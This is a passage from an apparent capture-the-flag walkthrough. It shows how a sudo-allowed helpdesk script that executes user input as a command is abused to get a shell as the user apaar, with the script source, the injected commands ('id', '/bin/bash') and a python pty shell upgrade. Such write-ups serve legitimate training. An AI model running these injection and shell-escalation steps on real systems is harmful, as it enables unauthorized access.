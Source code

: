 At this point we find something interesting with `sudo -l`. Its a script in apaar's home directory.
Check it out. 

```bash
cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"

```
  

So this script print one welcome line and two lines with an input behind.
The first input will go to the variable `$person` and the second to `$msg`.  

The msg will be interesting cause it is directed to `2>/dev/null`. Perhaps we can
enter some commands. Check it with `id` first and then try to escalate with `/bin/bash`.
  
> To start the script we had to specify a user in our sudo command cause (apaar:ALL).
   
- Enter the person whom you want to talk with: test
- Hello user! I am $person,  Please enter your message: id
  

```bash
$ sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

test
test
id
id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
Thank you for your precious time!
```
  
Commands worked! Escalate:  
  
- Enter the person whom you want to talk with: escalate
- Hello user! I am $person,  Please enter your message: /bin/bash
  


```bash
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

escalate
escalate
/bin/bash
/bin/bash
id
id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
bash -i
bash -i
python3 -c 'import pty;pty.spawn("/bin/bash")'
apaar@ubuntu:/var/www/html/secret$
```